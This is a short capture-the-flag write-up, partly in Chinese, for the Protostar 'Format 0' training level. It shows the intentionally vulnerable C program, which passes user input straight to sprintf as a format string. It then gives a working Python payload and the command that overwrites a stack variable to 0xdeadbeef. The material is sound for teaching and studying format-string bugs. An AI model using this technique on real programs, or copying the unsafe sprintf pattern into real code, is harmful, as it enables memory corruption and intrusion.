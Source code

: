 # Protostar: Format 0

This level introduces format strings, and how attacker supplied format strings can modify the execution flow of programs.

> **Hints**
>
> - This level should be done in less than 10 bytes of input.
> - “Exploiting format string vulnerabilities”

This level is at `/opt/protostar/bin/format0`.

### Source Code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
    volatile int target;
    char buffer[64];

    target = 0;

    sprintf(buffer, string);

    if(target == 0xdeadbeef) {
        printf("you have hit the target correctly :)\n");
    }
}

int main(int argc, char **argv)
{
    vuln(argv[1]);
}
```



## 攻击目标

使程序输出：`you have hit the target correctly :)`。



## 攻击过程

```shell
$ cat format0.py
buffer = "%64c"
target = "\xef\xbe\xad\xde"
print buffer + target
$ ./format0 `python format0.py`
you have hit the target correctly :)
```
